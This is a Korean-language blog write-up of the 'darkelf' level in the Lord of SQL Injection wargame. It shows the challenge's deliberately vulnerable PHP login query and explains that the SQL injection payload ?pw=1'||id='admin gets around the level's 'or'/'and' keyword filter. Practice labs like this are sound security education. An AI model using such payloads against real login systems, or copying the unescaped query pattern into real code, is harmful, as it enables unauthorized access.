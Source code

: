 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkelf 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `darkelf` 이다.  

이번 문제는 이 전 문제와 동일한 풀이 방법으로 풀 수 있었다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw=''
----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

이 전에는 `공백`에 필터링이 있었지만 이번에는 `or`과 `and`에 필터링이 있다.  

`worfman` 문제에서는 `공백`을 사용하지 않기 위해 `||`을 사용했었는데, 이번에는 `or` 문자열을 사용하지 않기 위해 `||`을 사용하면 될 것 같다.  

이 전 문제와 동일하게 URL 뒤에 아래와 같이 입력 해 주었다.  

```
?pw=1'||id='admin
```

```php
--------------------------------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
--------------------------------------------------------------------------------------------------

Hello admin
DARKELF Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

`DARKELF Clear!!`
